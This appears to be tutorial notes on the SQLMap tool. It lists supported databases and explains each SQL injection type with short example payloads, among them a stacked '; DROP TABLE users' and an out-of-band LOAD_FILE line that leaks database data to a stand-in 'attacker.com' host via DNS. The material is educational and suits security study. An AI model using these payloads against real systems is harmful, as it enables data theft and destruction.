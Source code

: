 ## Supported Databases

SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:

|                    |                      |                    |                        |
| ------------------ | -------------------- | ------------------ | ---------------------- |
| `MySQL`            | `Oracle`             | `PostgreSQL`       | `Microsoft SQL Server` |
| `SQLite`           | `IBM DB2`            | `Microsoft Access` | `Firebird`             |
| `Sybase`           | `SAP MaxDB`          | `Informix`         | `MariaDB`              |
| `HSQLDB`           | `CockroachDB`        | `TiDB`             | `MemSQL`               |
| `H2`               | `MonetDB`            | `Apache Derby`     | `Amazon Redshift`      |
| `Vertica`, `Mckoi` | `Presto`             | `Altibase`         | `MimerSQL`             |
| `CrateDB`          | `Greenplum`          | `Drizzle`          | `Apache Ignite`        |
| `Cubrid`           | `InterSystems Cache` | `IRIS`             | `eXtremeDB`            |
| `FrontBase`        |                      |                    |                        |
## Supported SQL Injection Types (all known)
The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries
Example of `Boolean-based blind SQL Injection`:

```sql
AND 1=1
```

covers `Error-based SQL Injection` for the following DBMSes:

|                      |            |         |
| -------------------- | ---------- | ------- |
| MySQL                | PostgreSQL | Oracle  |
| Microsoft SQL Server | Sybase     | Vertica |
| IBM DB2              |            |         |

Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.
Example of `Error-based SQL Injection`:

```sql
AND GTID_SUBSET(@@version,0)
```
## UNION query-based

Example of `UNION query-based SQL Injection`:

```sql
UNION ALL SELECT 1,@@version,3
```

## Stacked queries

Example of `Stacked Queries`:

```sql
; DROP TABLE users
```
stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default). SQLMap can use such vulnerabilities to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

## Time-based blind SQL Injection
Example of `Time-based blind SQL Injection`:


```sql
AND 1=IF(2>1,SLEEP(5),0)
```

## Inline queries

Example of `Inline Queries`:

```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

---

## Out-of-band SQL Injection

Example of `Out-of-band SQL Injection`:

Code: sql

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi). SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.

# on DNS
SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.
By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.